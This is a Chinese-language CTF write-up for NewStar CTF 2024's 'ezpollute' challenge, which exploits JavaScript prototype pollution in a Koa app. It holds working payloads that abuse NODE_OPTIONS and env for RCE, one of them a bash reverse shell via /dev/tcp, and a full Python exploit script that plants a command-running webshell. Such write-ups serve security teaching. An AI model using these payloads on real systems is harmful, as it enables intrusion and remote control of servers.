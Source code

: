 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# ezpollute

根据题目名称可知，这是一道 JavaScript 的原型链污染题

查看部署文件，可以得知 Node.js 版本为 16，并且使用了 `node-dev` 热部署启动

![Dockerfile](/assets/images/wp/2024/week4/ezpollute_1.png)

审计 `index.js`，`/config` 路由下调用了 `merge` 函数，`merge` 函数意味着可能存在的原型链污染漏洞

```javascript
router.post("/config", async (ctx) => {
  jsonData = ctx.request.rawBody || "{}";
  token = ctx.cookies.get("token");
  if (!token) {
    return (ctx.body = {
      code: 0,
      msg: "Upload Photo First",
    });
  }
  const [err, userID] = decodeToken(token);
  if (err) {
    return (ctx.body = {
      code: 0,
      msg: "Invalid Token",
    });
  }
  userConfig = JSON.parse(jsonData);
  try {
    finalConfig = clone(defaultWaterMarkConfig);
    // 这里喵
    merge(finalConfig, userConfig);
    fs.writeFileSync(path.join(__dirname, "uploads", userID, "config.json"), JSON.stringify(finalConfig));
    ctx.body = {
      code: 1,
      msg: "Config updated successfully",
    };
  } catch (e) {
    ctx.body = {
      code: 0,
      msg: "Some error occurred",
    };
  }
});
```

`merge` 函数在 `/util/merge.js` 中，虽然过滤了 `proto`，但我们可以通过 `constructor.prototype` 来绕过限制

```javascript
// /util/merge.js
function merge(target, source) {
  if (!isObject(target) || !isObject(source)) {
    return target;
  }
  for (let key in source) {
    if (key === "__proto__") continue;
    if (source[key] === "") continue;
    if (isObject(source[key]) && key in target) {
      target[key] = merge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
  return target;
}
```

`/process` 路由调用了 `fork`，创建了一个 JavaScript 子进程用于水印添加

```javascript
try {
  await new Promise((resolve, reject) => {
    // 这里喵
    const proc = fork(PhotoProcessScript, [userDir], { silent: true });

    proc.on("close", (code) => {
      if (code === 0) {
        resolve("success");
      } else {
        reject(new Error("An error occurred during execution"));
      }
    });

    proc.on("error", (err) => {
      reject(new Error(`Failed to start subprocess: ${err.message}`));
    });
  });
  ctx.body = {
    code: 1,
    msg: "Photos processed successfully",
  };
} catch (error) {
  ctx.body = {
    code: 0,
    msg: "some error occurred",
  };
}
```

结合之前的原型链污染漏洞，我们污染 `NODE_OPTIONS` 和 `env`，在 `env` 中写入恶意代码，`fork` 在创建子进程时就会首先加载恶意代码，从而实现 RCE

```python
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                 "A":"require(\"child_process\").execSync(\"bash -c \'bash -i >& /dev/tcp/ip/port 0>&1\'\")//"
            }
        }
    }
}
# 需要注意在 Payload 最后面有注释符 `//`，这里的思路跟 SQL 注入很像
```

考虑到新生可能没有云服务器来反弹 shell，因此在赛题设计时选择了热部署启动

除了弹 shell，还可以通过写 WebShell 覆盖 `index.js`，从而实现有回显 RCE，或者把 flag 输出到 `static` 目录下读也可以

比赛时题目环境并没有出网，弹不了 shell，只能通过后两种方式来做，这里给出写 WebShell 的做法

:::tip 热部署
就是在应用正在运行的时候升级软件，却不需要重新启动应用
:::

```python
import requests
import re
import base64
from time import sleep

url = "http://url:port"

# 获取 token
# 随便发送点图片获取 token
files = [
    ('images', ('anno.png', open('./1.png', 'rb'), 'image/png')),
    ('images', ('soyo.png', open('./2.png', 'rb'), 'image/png'))
]
res = requests.post(url + "/upload", files=files)
token = res.headers.get('Set-Cookie')
match = re.search(r'token=([a-f0-9\-\.]+)', token)
if match:
    token = match.group(1)
    print(f"[+] token: {token}")
headers = {
    'Cookie': f'token={token}'
}

# 通过原型链污染 env 注入恶意代码即可 RCE

# 写入 WebShell
webshell = """
const Koa = require('koa')
const Router = require('koa-router')
const app = new Koa()
const router = new Router()

router.get("/webshell", async (ctx) => {
    const {cmd} = ctx.query
    res = require('child_process').execSync(cmd).toString()
    return ctx.body = {
        res
    }
})

app.use(router.routes())
app.listen(3000, () => {
    console.log('http://127.0.0.1:3000')
})
"""

# 将 WebShell 内容 Base64 编码
encoded_webshell = base64.b64encode(webshell.encode()).decode()

# Base64 解码后写入文件
payload = {
    "constructor": {
        "prototype": {
            "NODE_OPTIONS": "--require /proc/self/environ",
            "env": {
                "A": f"require(\"child_process\").execSync(\"echo {encoded_webshell} | base64 -d > /app/index.js\")//"
            }
        }
    }
}

# 原型链污染
requests.post(url + "/config", json=payload, headers=headers)

# 触发 fork 实现 RCE
try:
    requests.post(url + "/process", headers=headers)
except Exception as e:
    pass

sleep(2)
# 访问有回显的 WebShell
res = requests.get(url + "/webshell?cmd=cat /flag")
print(res.text)
```
